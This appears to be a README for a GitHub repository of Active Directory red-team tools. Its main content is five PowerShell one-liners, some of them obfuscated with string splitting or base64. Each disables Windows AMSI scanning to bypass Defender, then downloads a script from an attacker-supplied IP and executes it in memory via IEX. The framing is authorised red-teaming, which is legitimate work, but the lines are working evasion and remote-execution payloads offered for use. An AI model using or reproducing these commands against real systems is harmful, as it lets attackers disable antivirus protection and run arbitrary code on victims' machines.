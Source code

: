 # About the repo:
* You'll find many tools on the internet, however, in this repo you'll find tools that may help you in your AD Red Team activities

# Download as zip or clone it:
* git clone https://github.com/projectHULK/AD_Recon.git

# Import all modules oneliner: (Windows)
* Get-Module -ListAvailable | Import-Module

# As a good practice
1) Insted of download script one-by-one, create a powershell script which will load all your tools to the system.
2) Run any AMSI bypass comand and call your script to run them in Memory 'bypassing Defender'.
* I have created Enum.ps1 which will download all the tools 'Put your IP'.
3) You can use the bellow oneliner to bypass AMSI, download Enum.ps1 and run in memory:
* Option 1)
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 2)
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 3)
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 4)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 5)
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX

# Note:
* Some tools my require elevated privilege

# AD Road map:
* Coming Soon
